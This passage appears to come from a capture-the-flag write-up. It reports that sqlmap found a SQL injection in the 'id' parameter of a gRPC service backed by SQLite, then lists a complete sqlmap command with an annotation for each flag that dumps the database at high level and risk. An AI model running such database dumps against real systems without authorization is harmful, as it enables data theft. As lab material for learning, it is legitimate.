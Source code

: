 <figure><img src="../../.gitbook/assets/Untitled 10 (1) (1).png" alt=""><figcaption></figcaption></figure>

From the output of `sqlmap`, we can see that the `id` parameter is vulnerable to SQL Injection and from the output we can see that the database used by the gRPC service is `sqlite`.

Now we can dump the database using the following command:

```bash
sqlmap -r request --flush-session --threads 10 --batch -p id --level 3 --risk 3 --dump
// Here:
// --flush-session : optional command, Flush session files for current target
// --threads : to mention the number of threads to be utilized
// --batch : Never ask for user input, use the default behavior
// --level : Level of tests to perform (1-5, default 1) 
// --risk : Risk of tests to perform (1-3, default 1)
// -p : to specify the Testable parameter(s)
// --dump : Dump DBMS database table entries
```

